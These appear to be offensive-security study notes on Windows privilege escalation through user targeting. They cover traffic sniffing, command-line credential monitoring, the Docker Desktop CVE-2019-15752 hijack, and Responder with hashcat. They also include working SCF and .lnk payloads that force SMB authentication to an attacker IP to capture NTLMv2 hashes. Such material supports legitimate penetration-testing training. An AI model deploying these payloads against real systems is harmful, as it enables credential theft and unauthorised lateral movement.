 
### **Overview**

- Targeting users can reveal credentials or opportunities for _privilege escalation_.
- Focused on:
    - _Credential capture_
    - _Monitoring local activity_
    - _Manipulating user interactions_ (file shares, vulnerable services, etc.)


---

### **Traffic Capture**

#### _Wireshark Installed on Host_

- Unprivileged users can capture traffic unless Npcap driver is restricted.
- Potential to capture:
    - FTP credentials
    - SMB traffic
    - Application logins

#### _Tools_:
- **Wireshark**
- **net-creds** (live interface or PCAP parsing)

---

### ** Process Command Line Monitoring**

- Watch for processes that reveal credentials in command line args:
```powershell
while($true) {
  $p1 = Get-WmiObject Win32_Process | Select-Object CommandLine
  Start-Sleep 1
  $p2 = Get-WmiObject Win32_Process | Select-Object CommandLine
  Compare-Object -ReferenceObject $p1 -DifferenceObject $p2
}
```
- Example Output:
```powershell
net use T: \\sql02\backups /user:inlanefreight\sqlsvc My4dm1nP@s5w0Rd
```

---

### **Vulnerable Services – Docker Desktop CVE-2019–15752**

- Docker Desktop CE < 2.1.0.1 allows LPE via `docker-credential-wincred.exe` hijack.
- Misconfigured folder: `C:\ProgramData\DockerDesktop\version-bin\`
- Place malicious `.exe` to execute during:
    - App restart
    - `docker login` command

---

### **Malicious SCF File**

#### _SCF = Shell Command File_
```ini
[Shell]
Command=2
IconFile=\\10.10.14.3\share\legit.ico
[Taskbar]
Command=ToggleDesktop
```
- Dropped on shared drive or desktop
- Triggers SMB auth request → captures NTLMv2 hash

#### _Tools_:
- **Responder**, **Inveigh**, or **InveighZero**


### **Responder Setup**
```bash
sudo responder -wrf -v -I tun0
```
Captures:
- Username
- Hostname
- NTLMv2 hash

### **Cracking NTLMv2 Hash**
```bash
hashcat -m 5600 <hash_file> /usr/share/wordlists/rockyou.txt
```

---

### **Malicious .lnk File (Server 2019 Bypass)**

#### _PowerShell Generator_
```powershell
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\legit.lnk")
$lnk.TargetPath = "\\<attackerIP>\@pwn.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Triggers auth request"
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```
- Place in shared folders or on user desktops
- Browsing to folder = forced SMB auth request


### **Additional Tips**

- SCF files deprecated in Server 2019+
- .lnk files are now preferred for triggering SMB requests
- Effective on:
    - Heavily browsed shares
    - Infrequently monitored workstations

- Crack captured hashes to:
    - Move laterally
    - Escalate privileges

